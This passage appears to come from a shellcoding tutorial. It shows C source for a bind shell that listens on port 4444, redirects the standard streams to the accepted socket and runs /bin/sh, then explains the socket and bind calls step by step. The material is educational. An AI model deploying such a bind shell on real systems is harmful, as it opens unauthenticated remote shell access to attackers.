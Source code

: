 ```c
    if (listen(sock, 0) == -1) {
        perror("Listen failed.\n");
        close(sock);
        exit(EXIT_FAILURE);
    }

    // Accept connection
    int fd = accept(sock, NULL, NULL);
    if (fd == -1) {
        perror("Socket accept failed.\n");
        close(sock);
        exit(EXIT_FAILURE);
    }

    // Duplicate stdin/stdout/stderr to socket
    dup2(fd, 0); // stdin
    dup2(fd, 1); // stdout
    dup2(fd, 2); // stderr

    // Execute shell
    execve("/bin/sh", NULL, NULL);
}
```

#### 1. Socket creation
```c
// Create socket
int sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
if (sock == -1) {
    perror("Socket creation failed.\n");
    exit(EXIT_FAILURE);
}
```

The `socket` function requires 3 arguments:
- int `domain`: The domain is `AF_INET` here since we are going to use IPv4 instead of local sockets or IPv6.
- int `type`: For TCP sockets we use `SOCK_STREAM`. If we wanted to use UDP we'd use `SOCK_DGRAM` instead.
- int `protocol`: For `SOCK_STREAM`, there's a single protocol implemented, we could use 0 also here.

#### 2. Binding the socket
```c
// Create addr struct
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444); // Port
    addr.sin_addr.s_addr = htonl(INADDR_ANY); // Listen on any interface

[...]

// Bind socket
if (bind(sock, (struct sockaddr *) &addr, sizeof(addr)) == -1) {
    perror("Socket bind failed.\n");
    close(sock);
    exit(EXIT_FAILURE);
}
```
A socket by itself doesn't do anything since we haven't associated the socket with any port or IP address. The `bind` function assigns the IP and port to the socket previously created. The man pages for `ip` explain the different parameters:
